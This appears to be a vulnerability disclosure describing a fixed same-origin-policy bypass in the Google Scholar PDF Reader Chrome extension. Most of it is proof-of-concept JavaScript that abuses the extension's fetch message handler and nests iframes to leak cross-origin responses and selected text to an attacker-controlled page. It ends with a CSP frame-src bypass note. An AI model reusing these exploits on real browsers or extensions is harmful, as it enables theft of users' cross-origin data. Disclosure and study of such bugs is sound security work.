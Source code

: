 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```


Google Scholar PDF Reader is apparently not an official Google app so was not awarded :(  
Chrome Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({
  type: 'fetch',
  method: 'GET',
  url: 'https://www.google.com/something.json',
  id: 1
});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f = document.createElement('iframe');
f.width = 1000;
f.height = 1000;
f.src =
  'https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location =
  'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
  let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
  let result = await reader.read();
  console.log(result.value);
};
parent.parent.postMessage(
  {type: 'fetch', url: 'https://services.google.com/example'},
  '*'
);
```

# Leak 3 (Without compromised renderer)

```js
let f = document.createElement('iframe');
f.width = 1000;
f.height = 1000;
f.src =
  'https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```

Selected text gets leaked cross-origin.

```js
onmessage = console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario

An attacker controlled website can bypass SOP if one of the following is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass

Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
